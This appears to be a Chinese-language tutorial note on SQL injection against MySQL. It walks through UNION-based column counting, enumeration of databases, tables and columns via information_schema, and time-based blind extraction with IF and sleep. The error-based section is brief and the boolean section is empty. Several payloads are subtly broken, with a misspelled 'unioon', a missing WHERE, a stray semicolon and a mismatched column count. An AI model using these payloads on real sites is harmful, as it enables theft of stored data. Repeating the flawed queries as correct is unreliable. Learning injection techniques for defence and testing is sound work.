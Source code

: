 ## Union注入攻击
### 判断字段长度
使用order by num。其中num指的就是第几列，由于不存在第几行就会报错。比如 order by 4，这个就是指的是按照第四列排序，如果不存在第四行就会报错
### 判断相关字段类型
使用order by num 可以获取到有几列数据，现在就要获取到每列数据的数据类型。比如上面获取到的是四列数据。则这里就是用

```sql
union select 1,2,3,4 
```


看返回的是哪个数字就可以确认对应的列是可以返回数据的。
### 获取数据
已经获取到了4列数据，并且确认返回的是3，即

```sql
union select 1,2,3,4 
```


返回的是3则说明第三列可以存放变量的。
使用
1. 获取数据库

```sql
id=1 union select 1,2,database(),4
```


成功返回当前使用的数据库，返回的是sql
2. 获取表

```sql
unioon select 1,2,(select table_name from information_schema.tables table_name='sql' limit 0,1),4
```


成功获取返回得到数据表，emails.同时修改limit n,m中的n和m就可以得到不同的表名。
3. 获取字段名，以emails表为例子。

```sql
union select 1,2,(select column_name from information_schema.columns where table_schema='sql' and table_name = 'emails' limit 0,1;),3
```


修改limit值就可以得到全部的字段名

4. 查询数据
现在已经知道了数据库的名字、数据表的名字、字段的名字，要想获取到数据就变得很简单的。以上面获取到的数据库、数据表、字段为例。

```sql
    union select 1,2,(select email_id from sql.emails limit 0,1)
```


修改limit就可以获取到全部的数据


## 报错注入攻击
当sql语句出现错误的时候，如果前端没有进行过滤，就会将报错信息显示出到前端来。所以报错注入的本质，就是从报错中获取信息。

## boolean注入

返回结果，只有两种情况，比如




## 时间注入
时间注入与boolean注入非常相近，也可以看成是boolean注入的一个子分支。它与Boolean注入的不同之处在于，时间注入是利用sleep() 或benchmark（）等函数让MySQL的执行时间变长。也就是boolean是使用了选择语句，但是时间注入的选择语句中如果被执行，那么就会比平时花费更多的时间，所以也就是两种情况，一条注入语句的执行时间有没有边长。比如下面这条sql语句
1. 利用时间注入查询数据库长度

```sql
    IF(length(database())>1,sleep(5),1)
```


语句的作用在于如果数据库库名的长度大于1 ，则MySQL查询休眠5秒，否则查询1。其中查询l的结果， 大约只有几十毫秒，根据Burp Suite中页面的响应时间，可以判 断条件是否正确。
2. 利用时间注入查询数据库名字

```sql
if(substr(database(),1,1)='s',sleep(5),1)
```


查询当前用户数据库的第一个字母是不是‘s’，如果是s则会暂停5秒
